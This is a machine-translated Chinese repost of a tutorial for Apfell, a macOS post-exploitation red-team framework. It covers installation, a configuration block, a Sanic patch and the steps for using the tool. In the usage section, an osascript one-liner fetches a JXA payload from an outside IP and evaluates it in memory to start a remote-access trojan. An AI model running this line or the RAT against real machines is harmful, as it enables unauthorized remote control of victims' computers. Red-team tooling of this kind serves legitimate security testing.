


# AP fell——一个 MacOS，后剥削，红色组队框架

> 原文：<https://kalilinuxtutorials.com/apfell-macos-framework/>

Apfell 是一个 macOS，post-exploit，red teaming 框架，用 python3 和 JavaScript 构建。它旨在为基于 mac 和 linux 的 red 团队中的操作员、经理和报告人员提供一个协作和用户友好的界面。这是一个正在进行中的工作，因为我有空闲时间，所以请原谅我。

**也可理解为[Firebase——利用错误配置的 Firebase 数据库的工具](https://kalilinuxtutorials.com/firebase-misconfigured-databases/)**

## **Apfell 安装**

*   从这个 github 获取代码:

```
**git clone https://github.com/its-a-feature/Apfell**
```

*   安装并设置需求(注意:Sanic 服务器说它只在 Linux 上工作):

```
**# The setup.sh will install postgres and pip3 install the requirements
cd Apfell && chmod +x setup.sh && sudo ./setup.sh && cd ..**
```

*   在 app/__init__ 中配置安装。py:

```
**# -------- CONFIGURE SETTINGS HERE -----------
db_name = 'apfell_db'
db_user = 'apfell_user'
db_pass = 'super_secret_apfell_user_password'
server_ip = '127.0.0.1'  # this will be used by the browser to callback here, edit this!
listen_port = '443'
listen_ip = '0.0.0.0'  # IP to bind to for the server, 0.0.0.0 means all local IPv4 addresses
ssl_cert_path = './app/ssl/apfell-cert.pem'
ssl_key_path = './app/ssl/apfell-ssl.key'
use_ssl = True**
```

*   目前 Sanic 和 websockets 6/7 有一个问题(跟踪的问题，但还没有拉请求)您需要编辑 Sanic 并稍作更新(我将为 Sanic 发出一个拉请求，因此我们不需要这样做，但这需要一点时间)。同时，执行`**sudo find / -type f -name "app.py"**`找到合适的 Sanic 文件进行编辑。在这里，找到显示`protocol = **request.transport._protocol**`的行，并将其编辑为:

```
**if hasattr(request.transport, '_app_protocol'): 
    protocol = request.transport._app_protocol
else: 
    protocol = request.transport._protocol**
```

## **用途**

*   启动服务器:

```
**python3 server.py 
[2018-07-16 14:39:14 -0700] [28381] [INFO] Goin' Fast @ https://0.0.0.0:443**
```

默认情况下，服务器将绑定到端口 443 上的 0.0.0.0。这是一个别名，意味着它将侦听机器上的所有 IPv4 地址。你实际上并没有在你的浏览器中浏览到[https://0 . 0 . 0:443](https://0.0.0.0:443)。相反，如果你在运行服务器的同一台机器上，你可以浏览到 [https://localhost:443](https://localhost:443) ，或者你可以浏览到运行服务器的机器上的任何 IPv4 地址。您也可以浏览到您在安装部分的`**server_ip = '192.168.0.119'**`中指定的 IP 地址。

*   **使用任何现代网络浏览器浏览服务器**



*   **创建新用户:**



*   **创建新的有效载荷:**


*   **托管新的有效载荷:**


This will start a python simple web server in the /tmp directory on port 8080.

*   下拉并执行内存中的有效负载:

```
**osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119:8080/apfell-jxa')),$.NSUTF8StringEncoding)));"** 
```

*   **与新老鼠互动:**


## **服务器内帮助**

一旦你登录到 Apfell，你可以访问一些额外的帮助。

*   **命令行**–提供关于如何通过终端和 Curl 与 RESTful 接口交互的信息
*   **文档**——最终将提供一份更全面的手册，介绍如何组织 Apfell，如何扩展它，日志如何工作，以及如何与仪表板交互
*   **AP fell-jxa help**–提供有关可发送给 apfell-jxa RAT 的命令行、其工作方式及其参数的帮助

[](https://github.com/its-a-feature/Apfell)